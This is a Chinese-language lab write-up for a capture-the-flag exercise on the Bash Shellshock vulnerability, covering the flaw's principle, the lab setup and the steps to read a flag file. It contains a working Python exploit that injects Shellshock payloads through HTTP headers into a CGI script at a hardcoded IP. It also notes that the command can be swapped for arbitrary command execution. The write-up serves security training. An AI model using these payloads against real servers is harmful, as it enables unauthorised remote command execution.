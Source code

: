 # bash 破壳漏洞

## 【实验原理】

​	Bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。导致出现命令执行，而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。

## 【实验目的】

提高学员对bash命令的理解以及对bash的原理进行一定的认识。

## 【实验环境】

![](文档/1.png)

* 靶机：Ubuntu14.04 64位操作系统。
* IP地址：随机分配，已绑定端口80
* 客户机：kali  IP地址：随机分配

## 【实验工具】

Python，浏览器访问，漏洞POC进行命令执行

## 【实验步骤】

** 步骤1：** 访问平台生成的url，对bash破壳漏洞进行一个初步的了解。

![](文档/2.png)

** 步骤2：** 点击靶场环境按钮，进入一个cgi页面

![](文档/3.png)

![](文档/4.png)



** 步骤3：** 通过对bash破壳漏洞的进一步了解，从而进行构造攻击payload对靶场页面URL进行远程命令执行

编写exp：

```python
#coding=utf-8
import urllib, urllib2
import cookielib, socket
import cgi, re, os


def get_request(url):
    socket.setdefaulttimeout(5)
    i_headers = {"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
                 "User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36",
                 "CustomHeader": "() { test;};echo; echo shellshock one;",
                 "CustomHeaderNew": "() { _;} >shellshockme[$($())] { cat flag.txt;}",
                 }

    try:
        req = urllib2.Request(url, headers=i_headers)
        response = urllib2.urlopen(req)
        print response.info()
        html = response.read()
        print html
    except:
        print "Error on request"

if __name__ == '__main__':
    url = "http://218.2.197.232:25294/cgi-bin/test.sh"
    get_request(url)

```

** 注：**

1. 将exp中的url替换成自己靶机的url即可
2. exp中的`i_headers`字段将`{ cat flag.txt;}`命令替换成你需要的指令即可完成任意命令执行

** 步骤4：** 通过对服务器进行命令执行操作，找出含有flag的页面，flag.txt

** 步骤4：** 执行命令查看或下载该文件，找出文件中的flag

执行结果：

![](文档/result.png)

## **【实验总结】**

本次实验主要是模拟真实环境中bash破壳漏洞命令执行操作，提取有效信息。